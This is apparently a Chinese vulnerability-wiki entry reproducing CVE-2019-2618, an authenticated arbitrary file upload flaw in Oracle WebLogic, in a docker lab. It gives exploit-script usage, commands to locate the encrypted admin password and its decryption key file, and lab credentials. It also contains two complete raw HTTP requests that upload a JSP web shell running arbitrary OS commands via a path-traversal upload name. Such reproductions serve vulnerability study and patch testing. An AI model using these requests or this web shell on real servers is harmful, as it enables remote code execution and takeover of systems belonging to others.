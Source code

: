 cve-2019-2618
=============

一、漏洞简介
------------

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

<https://github.com/ianxtianxt/cve-2019-2618>

### python使用

    python CVE-2019-2618.py url username password

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId26.jpg)
![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId27.jpg)

### 解密weblogic密码

    root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
    password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
    root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
    /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
    root@f0cb7e674d7e:~/Oracle# 

    weblogic 账号密码： weblogic/Oracle@123

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId29.jpg)

### 使用docker搭建环境

参考vulnhub

    root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
    1.png  docker-compose.yml  README.md  set_mirror.sh
    root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId31.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1081

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW--

### 也可以换个目录上传

    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
    bea_wls_internal 
    bea_wls_deployment_internal 在同目录
    这是漏洞war位置

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId33.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1084

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW-
